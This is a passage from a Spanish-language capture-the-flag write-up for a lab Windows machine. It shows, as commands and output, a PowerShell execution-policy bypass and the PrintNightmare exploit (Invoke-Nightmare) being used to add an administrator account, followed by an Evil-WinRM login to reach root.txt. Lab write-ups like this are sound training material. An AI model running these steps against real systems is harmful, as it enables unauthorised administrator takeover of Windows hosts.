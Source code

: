 ```console
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Import-Module ./pn.ps1
```

Si en este punto nos da error de importación, se debe a que no tenemos permisos suficientes para ejecución:

```console
*Evil-WinRM* PS C:\Windows\Temp\Privesc> File C:\Windows\Temp\Privesc\pn.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module ./pn.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

Podemos comprobar los permisos de ejecución de este modo:

```console
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Get-ExecutionPolicy                          
Restricted
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted -Force;
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Get-ExecutionPolicy                          
Unrestricted
```

Como vimo anteriormente, con ayuda de este script podemos crear un nuevo usuario con privilegios de administrador.

```console
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Import-Module ./pn.ps1
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Invoke-Nightmare -NewUser "wildzarek" -NewPassword "wildzarek"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user wildzarek as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

Finalmente, nos logueamos con este nuevo usuario utilizando **`evil-winrm`**

```console
p3ntest1ng:~$ evil-winrm -i 10.10.11.106 -u wildzarek -p 'wildzarek'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\wildzarek\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/25/2022   5:58 PM             34 root.txt

```